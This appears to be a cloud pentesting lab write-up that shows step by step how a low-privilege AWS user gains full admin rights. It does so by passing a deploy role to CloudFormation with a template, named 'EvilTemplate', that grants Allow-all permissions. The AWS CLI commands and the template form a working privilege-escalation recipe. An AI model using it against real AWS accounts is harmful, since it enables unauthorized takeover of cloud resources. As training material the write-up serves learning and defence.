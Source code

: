### Pass Role : CloudFormation

List AWS managed policies attached to the user and try to create a user.
```

aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam create-user --user-name Bob --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/224529051-e7989a81-6393-48de-b3e0-6d50503e4acd.png)

Check the policy permissions and details. `aws iam get-user-policy --user-name student --policy-name terraform-20230312061123165200000001 --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/224528133-2890d298-7c22-4515-9da6-88601bb81feb.png)

List role on AWS account which can be passed to CloudFormation service `aws iam list-roles --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/224528240-63cd8c63-2790-4d56-bd90-5da567ac4805.png)
![image](https://user-images.githubusercontent.com/46797181/224528273-bc25821f-d474-46a5-800a-f23c3d3b6c07.png)

Check lab12CFDeployRole role details.
```
aws iam list-role-policies --role-name lab12CFDeployRole --profile PTAcademyJllerena
aws iam get-role-policy --role-name lab12CFDeployRole --policy-name terraform-20230312061123641100000003 --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528385-2e9392b2-9ab1-4f97-b70b-dfe542ec55f3.png)

Create a JSON file with the following content
```
{
"Resources" : {
 "EvilTemplate" : {
  "Type" : "AWS::IAM::Policy",
  "Properties" : {
   "PolicyName" : "admin_policy",
   "PolicyDocument" : {
    "Version" : "2012-10-17",
    "Statement" : [
    {
      "Effect" : "Allow",
      "Action" : "*",
      "Resource" : "*"
    }
   ]
 },
   "Users" : [
   "student"
    ]
   }
  }
 }
}
```
Create a new cloudformation stack on the AWS account with help of the created JSON file. `aws cloudformation create-stack --stack-name ad-stack --template-body file://jll.json --capabilities CAPABILITY_NAMED_IAM --role-arn arn:aws:iam::013566348973:role/lab12CFDeployRole --profile PTAcademyJllerena`

Check the stack information and check the stack execution event status. 
```
aws cloudformation describe-stacks --stack-name ad-stack --profile PTAcademyJllerena
aws cloudformation describe-stack-events --stack-name ad-stack --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528654-35f72195-d2d0-4f6e-9289-ff29ab7d1bd2.png)

Listing user policies will show that student user has admin policies `aws iam list-user-policies --user-name student --profile PTAcademyJllerena`

Getting the details of admin policy will show that it has full permissions and now is possible to create a new user 

```
aws iam get-user-policy --user-name student --policy-name admin_policy --profile PTAcademyJllerena
aws iam create-user --user-name jllerena --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/224528867-76c113d6-6120-469e-9db3-d84095790ab6.png)

Privilege escalation has been achieved 
